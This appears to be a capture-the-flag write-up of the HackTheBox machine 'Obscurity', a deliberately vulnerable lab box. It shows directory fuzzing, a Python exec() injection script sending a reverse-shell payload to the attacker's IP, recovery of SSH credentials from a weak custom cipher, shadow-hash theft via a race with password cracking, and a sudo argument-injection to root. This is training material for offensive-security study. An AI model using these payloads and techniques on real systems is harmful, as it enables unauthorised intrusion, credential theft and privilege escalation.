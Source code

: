 ```yaml
---
title: "HackTheBox: Obscurity"
date: "2020-05-09"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/obscurity/htb-obscurity.png)

* * *

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: OpenSSH 7.6p1
- 80: Closed HTTP
- 8080: BadHTTPServer

![Image](assets/img/writeups/hackthebox/obscurity/image-10.png)

## Host enumeration - 8080

Interestingly, the version of this service is BadHTTPServer... I am unfamiliar with this service. Due to the nature of HTTP, we navigate to it using the browser and we see a note; their motto is _security through obscurity!_ Interesting for sure. In my secure software development class at university, we were taught that security by obscurity offers no security, and it's only a matter of time until an attacker finds out.

When scrolling down a little, there is a second note from the developers. The web server code is in the **SuperSecureServer.py** file, in the secret development directory. This is where security by obscurity comes into action. The secret development directory is only supposed to be known to those authorized, however we are hackers and can use enumeration tools ;)

![Image](assets/img/writeups/hackthebox/obscurity/image-11-1024x187.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-12.png)

Lets use wfuzz to try and find the directory which SuperSecureServer.py is hidden in. The command can be seen below. The `FUZZ` is the placeholder/ field that is fuzzed by the wordlist. We place `/SuperSecureServer.py` afterwards so that when the correct directory is placed in the field, then we should get a HTTP 200 OK response.

```sh
$ wfuzz -w '/usr/share/wordlists/dirb/common.txt' \
-u 'http://10.10.10.168:8080/FUZZ/SuperSecureServer.py' \
--hc 404,500 -c
```

![Image](assets/img/writeups/hackthebox/obscurity/image-13.png)

Bingo! The secret directory is `develop`. Not so secret after all. Alright, now we have access to the software running the web server. Thankfully Python is an interpreted code language, and does not always get compiled. Hence, we are able to read the source code without any binary reversing.

* * *

## Getting the initial shell

We have to do a code review, perhaps there is some insecure software development which we can exploit. It seems that the web server serves documents which the user controls and is executed using the unsafe `exec()` function.

![Image](assets/img/writeups/hackthebox/obscurity/image-15.png)

Alright, it's time to buckle up and see if we can get RCE by escaping the `exec()`. This is the idea:

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = 'foo'
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

So we just need to change the `path` to get RCE.

```py
# the desired output
# ' import os;os.system("ping -c 2 10.10.15.95") a='
# together:
path = '\'' + '\nimport os;os.system("ping -c 2 10.10.15.95")\na=\''
```

![Image](assets/img/writeups/hackthebox/obscurity/image-17.png)

So all we need to do to get the reverse shell is to place some Python reverse shellcode [pentest monkey reverse shell cheat sheet](https://google.com).

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = '\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.95",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])\na=\''

print("[+] Sending payload. \n[+] Check netcat listener")
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

![Image](assets/img/writeups/hackthebox/obscurity/image-18.png)

* * *

## Pivot from www-data to Robert

The www-data is able to read the files (but not user.txt!) in the `Robert` home directory. There are some interesting files. I guess we will have to do our second code review, this time against SuperSecureCrypt.py

- check.txt
- out.txt
- passwordreminder.txt
- SuperSecureCrypt.py

![Image](assets/img/writeups/hackthebox/obscurity/image-19.png)

> Don't roll your own crypto
>
> Lecturer at Napier University

![Image](assets/img/writeups/hackthebox/obscurity/image-21.png)

OK so, we see that the encrypt function looks like a ROT13 cipher, but rotation by 255 rather than 13, using a key that is the length of the cipher text. Welcome to a crypto CTF challenge!

Pretty much, what we have to do is use the out.txt as an input file, use the contents of check.txt as the key, and use the `-d` flag to decrypt out.txt. This will give is the encryption key:

```sh
$ python3 SuperSecureCrypt.py \
-i out.txt
-k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' \
-o passwd-dec.txt \
-d \
&& cat passwd-dec.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

So, now we can use the key to decrypt the password.

```sh
$ python3 SuperSecureCrypt.py \
-i passwordreminder.txt
-k 'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich'
-o passwordreminder-out.txt
-d \
&& cat passwordreminder-out.txt
SecThruObsFTW
```

![Image](assets/img/writeups/hackthebox/obscurity/image-22.png)

Now we are able to log in to the SSH service with `robert:SecThruObsFTW` credentials.

* * *

## Escalating to Root

When executing `sudo -l` we are able to see whether Robert can execute any scripts as root.

![Image](assets/img/writeups/hackthebox/obscurity/image-24-1024x121.png)

Robert can execute BetterSSH.py as root. There is a bit of a theme developing; it seems that we have to code review again now. We see a big no-no. Instead of using the native SSH binary, the creators created their own - which is supposed to be better. However, there is a gaping mistake in it. It writes the hashes of the **shadow** file to /tmp/SSH/ for 0.1 seconds. Sounds secure, but we can exploit this. We must execute the script as root because otherwise it is not possible to read the shadow hashes.

![Image](assets/img/writeups/hackthebox/obscurity/image-25.png)

There are actually two methods here. The second method I didn't know until I discussed it with another player.

### Method 1 to get root

As the root hash is only placed in the /tmp/SSH directory for 0.1 seconds, we need to create a loop that will cat all files.

```sh
while true; do cat /tmp/SSH/* ; done
```

In a second terminal, we must execute BetterSSH.py as root (using Robert the user) and login with our credentials. Then the root hash will be printed in the first terminal. We can use John to crack the password.

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
mercedes
```

![Image](assets/img/writeups/hackthebox/obscurity/image-26.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-27.png)

We can use the password to switch to the root user in the robert SSH session. While the password could have been brute forced straight away, we cannot login to root through SSH externally, so that would have failed.

![Image](assets/img/writeups/hackthebox/obscurity/image-28.png)

## Method 2 to get root

So, when we run binaries as sudo we can also execute commands as another user, e.g.
`sudo -u foo script.sh` to run script.sh as foo user. We can do:
`-u root cat /root/root.txt` in the BetterSSH shell to get the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-29.png)

We must do a code review to understand _why_ this really works. The screenshot below shows the code that is executed when a user types a command. The key line is highlighted in the orange box.

The BetterSSH is running under root context. To enable user permissions, `sudo -u <username>` is used to execute commands as the authenticated user. However, when we use the command `-u root $command` then we place it in `sudo -u robert -u root $command`. The sudo binary takes the root user, and executes `cat /root/root.txt` to give us the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-31.png)
